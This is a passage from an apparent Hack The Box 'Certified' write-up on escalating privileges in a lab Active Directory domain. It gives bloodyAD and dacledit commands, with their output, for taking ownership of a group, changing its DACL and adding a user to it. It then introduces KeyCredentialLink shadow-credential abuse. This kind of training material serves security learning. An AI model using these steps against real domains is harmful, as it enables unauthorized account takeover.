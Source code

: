 ![](Pasted%20image%2020250312104920.png)
![](Pasted%20image%2020250312110254.png)

So, after enumerating all, we can point out these key features:

1. `judith.mader` permissions:
- `WriteOwner` permissions on the `Management Group`
2. `management_svc` permissions:
- `GenericWrite` permissions on the `Management Group`
- `GenericAll` permissions over the `ca_operator` account

With this info, we can start exploitation.


# EXPLOITATION
---

Once we know the permissions we have, we can start escalating our privileges, let's start with using the `WriteOwner` permission of `judith.mader` to set that user as owner of the management group, for this, let's use `bloodyAD`:

```
bloodyAD --host "10.10.11.41" -d "certified.htb" -u "judith.mader" -p "judith09" set owner Management judith.mader

[+] Old owner S-1-5-21-729746778-2675978091-3820388244-512 is now replaced by judith.mader on Management
```

Nice, we are now owner of the management group, let's update the group permissions to enable the write permission, for this, we can use `dacledit`:


```
sudo python3 dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'

[*] DACL backed up to dacledit-20250312-130240.bak
[*] DACL modified successfully
```


Next step would be adding `judith.mader` to Management group:


```
bloodyAD --host 10.10.11.41 -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"

[+] judith.mader added to Management
```

There we go, now, we can exploit **KeyCredentialLink**, **KeyCredentialLink** is an attribute in Active Directory (AD) that stores **public key credentials** linked to a user or computer account. These credentials are used for modern authentication methods like **Windows Hello for Business** or **FIDO2 security keys**. When exploited, this attribute allows attackers to **add their own malicious public key** to a target account, enabling authentication **without knowing the account's password**.
